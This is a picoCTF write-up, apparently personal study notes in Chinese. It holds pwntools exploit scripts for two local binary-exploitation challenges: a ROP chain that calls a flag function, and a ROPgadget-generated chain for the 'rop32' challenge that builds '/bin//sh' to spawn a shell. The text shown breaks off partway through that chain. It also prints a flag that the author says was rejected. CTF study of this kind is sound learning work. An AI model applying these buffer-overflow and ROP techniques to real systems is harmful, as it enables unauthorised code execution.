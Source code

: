 ```
from pwn import *
r=process('./rop')
r.recvuntil('>')
raw_input(':')
#main_addr = 0x80487c9
gets_plt = 0x08048430
win1_addr = 0x0804A03D
display_flag_addr = 0x080486b3
payload = 'a'*28
payload += p32(gets_plt)              # ret1
payload += p32(display_flag_addr)     # ret2
payload += p32(win1_addr)             # ret1 arg
r.sendline(payload)
r.sendline('\x01'*3)                  # get() input chane win123
r.interactive()

```
picoCTF{h0p_r0p_t0p_y0uR_w4y_t0_v1ct0rY_183d3d88}

~~*阿送出去 他說flag不對？？？*~~
## rop32 - Points: 400 - (Solves: 356)Binary Exploitation
### review
看到writeup 我快被我自己氣死
>ROPgadget --binary ./vuln --rop --badbytes "0a"

當初有發現 碰到`0a` 送進去的payload 就不是我要的

知道要找代替的 直接從gadget 找 我沒有找到^^

看了help 也沒有發現有 badbytes 這選項 我在幹麻

>ROPgadget --binary r32 --ropchain --badbytes "0a"
### code
```
from pwn import *
r=process('./vuln')
r.recvuntil('\n')

from struct import pack

# Padding goes here
p = 'a'*28

p += pack('<I', 0x0806ee6b) # pop edx ; ret
p += pack('<I', 0x080da060) # @ .data
p += pack('<I', 0x08056334) # pop eax ; pop edx ; pop ebx ; ret
p += '/bin'
p += pack('<I', 0x080da060) # padding without overwrite edx
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ee6b) # pop edx ; ret
p += pack('<I', 0x080da064) # @ .data + 4
p += pack('<I', 0x08056334) # pop eax ; pop edx ; pop ebx ; ret
p += '//sh'
p += pack('<I', 0x080da064) # padding without overwrite edx
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ee6b) # pop edx ; ret
p += pack('<I', 0x080da068) # @ .data + 8
p += pack('<I', 0x08056420) # xor eax, eax ; ret
p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080da060) # @ .data
```